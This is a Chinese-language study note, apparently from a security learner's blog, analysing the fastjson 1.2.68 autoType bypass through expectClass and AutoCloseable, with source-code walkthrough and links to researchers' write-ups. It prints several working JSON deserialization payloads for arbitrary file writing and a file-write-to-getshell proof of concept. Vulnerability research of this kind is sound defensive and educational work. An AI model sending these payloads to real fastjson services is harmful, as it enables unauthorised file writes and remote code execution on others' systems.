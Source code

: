 原本以为1.2.48之后的fastjson漏洞都是基于一些黑名单绕过,也没怎么往后看了,结果在L3ctf的时候遇到了一个1.2.68的,于是下来准备学习一下

最开始是浅蓝师傅提出的,https://b1ue.cn/archives.html,通过expectClass来实现一个绕过`autotype`,并提供了一些挖掘思路,然后网上就有了各种漏洞挖掘,本身的漏洞逻辑因为自己太菜了,也就不说了,直接放大师傅们的文章



这里讲了一下大概的逻辑:https://p2hm1n.com/2021/03/29/fastjson-%E2%89%A4-1-2-68-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

浅蓝大师傅:

https://b1ue.cn/archives/382.html

https://b1ue.cn/archives/364.html

还有使用Throwable的,不过危害不大

https://b1ue.cn/archives/348.html





在`JSONParser`类中,当遇到`@typy`时,首先会进行一次`checkAutoType`,因为我们的`java.lang.AutoCloseable`默认是在mappings中的,这里会返回我们的AutoCloseable



然后下面会通过我们返回的class来获取对应的解析器,并传入deserialze方法

![image-20211128212212715](img/image-20211128212212715.png)

之前返回的class为expectClass

![image-20211128212256488](img/image-20211128212256488.png)

然后这里有个关键的地方

如果开启了safeMode设置,直接抛出异常。默认情况是不开的(后面的版本会默认开启,这里我们可以开启来完成一个防护),然后会设置我们的expectClassFlag,然后就是 1.2.24 后续补丁对`L`、`;`、`[` 等字符的检查，然后有相应的 expectClass 的判断，从mapping找class,之后就是常规的黑白名单的校验

这里设置expectClassFlag的时候会有一个黑名单检查,过滤了大部分常用接口,但是并没有过滤我们的AutoCloseable

![image-20211128212403676](img/image-20211128212403676.png)

这里加载我们的class,这里cacheClass=true没有加入缓存

![image-20211128214603426](img/image-20211128214603426.png)

然后下面返回该class

![image-20211128214721249](img/image-20211128214721249.png)





然后还有一些其他点,也是没有注意的

fastjson 在判断期望类之前将继承自 ClassLoader、DataSource、RowSet 的类直接抛出异常。

```
if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz) || RowSet.class.isAssignableFrom(clazz)) {
    throw new JSONException("autoType is not support. " + typeName);
}
```

而常用的 JNDI RCE 类基本上都继承自 DataSource 和 RowSet，所以能找到的 JNDI gadget 基本都无法在这个漏洞中使用。





浅蓝师傅只是提供了一种思路,然后具体的利用有:

https://rmb122.com/2020/06/12/fastjson-1-2-68-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-gadgets-%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/

JDK11,不依赖三方库

```java
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':
            {
                'array':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
                'limit':22
            }
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```

网上有说JDK8/10的,但是并没有试验成功（据说jdk_1.8.0 172,201,221可以）

```java
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw=='
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```





## 任意写文件到getshell

通过写文件到ExtClassLoader加载路径,然后通过双亲委派机制来加在我们的类,这种方法在对于springboot项目比较好用,因为springboot很多是打包成jar包,而且springboot多以 RESTful API 接口形式向外提供服务，很少会动态解析 jsp 和其他外部模版文件

https://threedr3am.github.io/2021/04/13/JDK8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%9C%BA%E6%99%AF%E4%B8%8B%E7%9A%84Fastjson%20RCE/

Poc:

```
{
    "@type":"java.lang.AutoCloseable",
    "@type":"EvilAutoCloseable"
}
```

但是在jdk11以及之后无法使用,因为classloader的加载逻辑发生了变化





创建任意文件,还是只有jdk11可以,没啥用感觉,毕竟不能决定文件内容,记录一下吧还是

```java
{
    '@type':"java.lang.AutoCloseable",
    '@type':'java.io.FileOutputStream',
    'file':'/tmp/nonexist',
    'append':false
}
```









然后就是长亭爆出来的,可以根据commons-io来写入文件的



https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247486627&idx=1&sn=b768bebbd40c7d5b39071c711d9a19aa

